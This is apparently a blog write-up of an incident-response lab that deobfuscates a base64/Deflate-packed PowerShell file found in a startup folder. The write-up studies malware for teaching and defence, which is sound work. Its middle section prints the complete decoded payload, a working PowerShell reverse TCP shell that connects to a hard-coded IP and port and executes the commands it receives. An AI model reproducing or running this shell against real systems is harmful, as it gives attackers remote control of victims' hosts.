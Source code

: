 ```yaml
---
title: "PowerShell "
classes: wide
header:
  teaser: /assets/images/Tutorials/PS-Walk_Through/path.jpg
ribbon: DodgerBlue
description: "Obfuscated PowerShell walk-through..."
categories:
 - Tutorials
toc: true
---
```


## Scenario
Analyst!

We found this in a startup folder on a user's host. Sheesh.

This thing makes my brain hurt just by looking at it. Can you figure this out for us, please?

Thanks,

IR Team

---
## file investigation

At first look, I found the lab provides a zip file and a Readme file where the scenario is written. On extracting the file and opening it in VSCode, I found that it seemed like **PowerShell code** so changed the extension to ps1.

![FL](/assets/images/Tutorials/PS-Walk_Through/FL.png)

As you can see the iEx command means to invoke what is coming next and the pipe which makes sense that the code has two parts.

## Deobfuscation
let's break the code. `iEx(nEW-ObJECt  Io.CoMpRESSiOn.defLaTEstReam([iO.memoRYStREam][sYsteM.coNvert]::FROmbaSe64StRiNG` this part has the invoce instruction but what shall be invoced?!!
If you look from a good perspective you will find that this line performs the **Deobfuscation**. First `[system.convert]::FROmbaSe64StRiNG` retrieves the string from B64 then `[io.memoryStream]` creates a new MemoryStream object in which the decoded byte array will be stored. At last `new-Object io.compression.deflateStream` creates a new DeflateStream object used to decompress data that has been compressed using the Deflate algorithm. so it would be really easy to decode the strange part leave it now.
I would prefer to have a look at what resides after the pipe `% {nEW-ObJECt SYsteM.Io.strEAmReAder($_,[SysTEm.TExT.eNCoDIng]::aSCIi) }| % { $_.reaDtoEnD()}` that simply will read data from a stream and outputs the entire content as a string.
So now we need to know what is the stream, For that mission, I would try PowerShell itself but I must at first remove the invoke `iEx` and then store the rest script in the new var.

![FR](/assets/images/Tutorials/PS-Walk_Through/fr.png)

As long as there is no error, we are good ;). So let's see what has been stored in that var.

![content](/assets/images/Tutorials/PS-Walk_Through/content.png)

that's a piece of good news we found our destination.

```powershell

########################################################################";
#                                                                      #";
#                        PowerShell Reverse TCP v3.5                   #";
#                                          by Ivan Sincek              #";
#                                                                      #";
# GitHub repository at github.com/ivan-sincek/powershell-reverse-tcp.  #";
# Feel free to donate bitcoin at 1BrZM6T7G9RN8vbabnfXu4M6Lpgztq6Y14.   #";
#                                                                      #";
#########################################################################";


$client = $null;
$stream = $null;
$buffer = $null;
$writer = $null;
$data = $null;
$result = $null;
try {
 $ip = "10.10.115.13"
 $port = 1433
 $client = New-Object Net.Sockets.TcpClient($ip, $port);
 $stream = $client.GetStream();
 $buffer = New-Object Byte[] 1024;
 $encoding = New-Object Text.AsciiEncoding;
 $writer = New-Object IO.StreamWriter($stream);
 $writer.AutoFlush = $true;
 $bytes = 0;
 do {
 $writer.Write("PS>");
 do {
 $bytes = $stream.Read($buffer, 0, $buffer.Length);
 if ($bytes -gt 0) {
 $data = $data + $encoding.GetString($buffer, 0, $bytes);
 }
 } while ($stream.DataAvailable);
 if ($bytes -gt 0) {
 $data = $data.Trim();
 if ($data.Length -gt 0) {
 try {
 $result = Invoke-Expression -Command $data 2>&1 | Out-String;
 } catch {
 $result = $_.Exception | Out-String;
 }
 Clear-Variable -Name "data";
 $length = $result.Length;
 if ($length -gt 0) {
 $count = 0;
 do {
 if ($length -ge $buffer.Length) { $bytes = $buffer.Length; } else { $bytes = $length; }
 $writer.Write($result.substring($count, $bytes));
 $count += $bytes;
 $length -= $bytes;
 } while ($length -gt 0);
 Clear-Variable -Name "result";
 }
 }
 }
 } while ($bytes -gt 0);
} catch {
 $_.Exception.InnerException.Message;
} finally {
 if ($writer -ne $null) {
 $writer.Close();
 $writer.Dispose();
 Clear-Variable -Name "writer";
 }
 if ($stream -ne $null) {
 $stream.Close();
 $stream.Dispose();
 Clear-Variable -Name "stream";
 }
 if ($client -ne $null) {
 $client.Close();
 $client.Dispose();
 Clear-Variable -Name "client";
 }
 if ($buffer -ne $null) {
 $buffer.Clear();
 Clear-Variable -Name "buffer";
 }
 if ($result -ne $null) {
 Clear-Variable -Name "result";
 }
 if ($data -ne $null) {
 Clear-Variable -Name "data";
 }
 [System.GC]::Collect();
}
```
## Code illustration

To understand this let's break it into small parts, the code has four parts:

1- Script Information Block: The initial block is a comment section providing metadata about the script such as version, author, GitHub repository, and donation address.
2- Variable Initialization: $client, $stream, $buffer, $writer, $data, and $result are initialized to $null
3- Try Catch Block:
that's the most interesting block where the script tries to establish a TCP connection with C2.
first set port and ip `10.10.115.13 : 1433` then establish TCP connection:
- $client is created as a new TCP client connecting to the specified IP and port.
- $stream is obtained from the TCP client to facilitate data transmission.
- $buffer is a byte array of size 1024 to store incoming data.
- $encoding is set to ASCII encoding.
- $writer is an IO.StreamWriter for writing data to the stream with AutoFlush set to $true.
after that the script enters a do loop which continually prompts the remote user with "PS>" and waits for commands, reads incoming data from the stream into the buffer until no more data is available and converts the byte data to a string using ASCII encoding and appends it to **$data**.
after that enters the inner loop, if $data is not empty, it attempts to execute the PowerShell command using Invoke-Expression, captures the output or exception into $result and finally clears $data.

Of course, if there is an exception that is where the catch comes to act.

Finally Block: finally, loses and disposes of the writer, stream, client, and clears all variables and Forces garbage collection with  `[System.GC]::Collect()`.

## Conclusion

In this investigation, we analyzed an obfuscated PowerShell script found in a user's startup folder. The script, once deobfuscated, revealed itself as a PowerShell reverse TCP script by Ivan Sincek, designed to allow remote command execution on the compromised host.

### Key Findings
Obfuscation:
The script uses base64 decoding and Deflate compression to hide its true function.
Deobfuscation revealed the script's purpose and content.

Functionality:
Establishes a TCP connection to a remote IP (10.10.115.13) on port 1433.
Reads commands from the attacker, executes them and sends back the results.

**Code Structure:**

Initialization: 
Sets up variables and TCP connection.
Command Execution Loop: Continuously reads and executes remote commands.
Cleanup: Handles exceptions and disposes of resources.

##
- VSCode
- Cmder

#### Written by

## *Karim Gomaa*
